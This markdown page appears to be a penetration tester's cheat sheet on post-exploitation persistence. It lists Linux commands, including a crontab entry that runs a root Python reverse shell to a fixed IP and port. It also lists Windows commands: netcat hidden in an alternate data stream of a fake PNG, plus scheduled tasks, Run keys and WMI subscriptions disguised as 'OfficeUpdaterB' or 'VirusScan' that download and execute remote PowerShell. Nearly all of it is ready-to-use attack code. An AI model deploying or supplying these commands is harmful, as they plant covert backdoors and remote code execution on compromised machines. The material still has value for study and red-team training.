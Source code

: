 ```yaml
---
title: Persistance
category: Post-Exploitation
order: 101
---
```


>**Linux**

{% highlight bash %}
#setsid
setsid *command*

#add user and alternate ssh port
sudo usermod -a -G sudo sshdd
vi /etc/ssh/sshd_config (add port)
sudo service ssh restart

#add to crontab
sudo nano /etc/crontab
*/5 * * * *     root    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.128.0.186",8282));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

>**Windows**

ADS and Scheduled Task (user level) |  <code> type c:\tools\nc.exe > c:\nice.png:nc.exe  </code>
ADS and Scheduled Task (user level) |  <code> start c:\nice.png:nc.exe  </code>
ADS and Scheduled Task (user level) |  <code> start c:\nice.png:nc.exe  </code>
Schduled Task | <code> schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''[]'''))'" /sc onstart /ru System </code>
Scheduled Task | <code> schtasks /create /tn OfficeUpdaterB /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''https://website/page'''))'" /sc daily /st 12:53 </code>
Run Key | <code> REG ADD "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /V "OfficeUpdaterB" /t REG_SZ /F /D "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c \"IEX ((new-object net.webclient).downloadstring('https://website/page'))\"" </code>



WMI Persistence:
<code> 
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="VirusScan", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM Win32_ProcessStartTrace WHERE ProcessName='notepad.exe'" 
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="VirusScan", CommandLineTemplate="powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('https://URL.com/file'))\""
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"VirusScan\"", Consumer="CommandLineEventConsumer.Name=\"PushVirusScan\""
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer GET __RELPATH /FORMAT:list
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET __RELPATH /FORMAT:list
</code>

* http://pwnwiki.io/#!persistence/windows/index.md
* http://www.fuzzysecurity.com/tutorials/19.html
* http://www.hexacorn.com/blog/category/autostart-persistence/page/8/
* https://attack.mitre.org/wiki/Persistence
